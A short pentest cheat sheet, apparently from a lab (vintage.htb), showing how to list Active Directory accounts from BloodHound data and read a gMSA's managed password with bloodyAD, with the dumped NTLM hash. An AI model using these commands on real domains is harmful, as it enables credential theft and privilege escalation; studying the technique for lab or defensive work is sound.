 # Group Managed Service Accounts


## Detection
 * Bloodhound Data
 ```bash
 cat <Users.json> | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 ```
 Example:
 ```bash
 loot cat 20241130134537_users.json | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 1717583255:krbtgt
 1717584108:gMSA01$
 1717594268:G.Viola
 1717594268:L.Bianchi
 1717594268:M.Rossi
 1717594268:R.Verdi
 1717621693:C.Neri
 1717681527:svc_ark
 1717681527:svc_ldap
 1717757654:C.Neri_adm
 1717846494:Administrator
 1730896036:P.Rosa
 1731507413:Guest
 1732621230:L.Bianchi_adm
 1733002326:svc_sql
 ```
## Exploitation
### BloodyAD
 * Getting the hash:
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword
 ```
 * Example
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword 
 distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
 msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
 msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```
### [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)

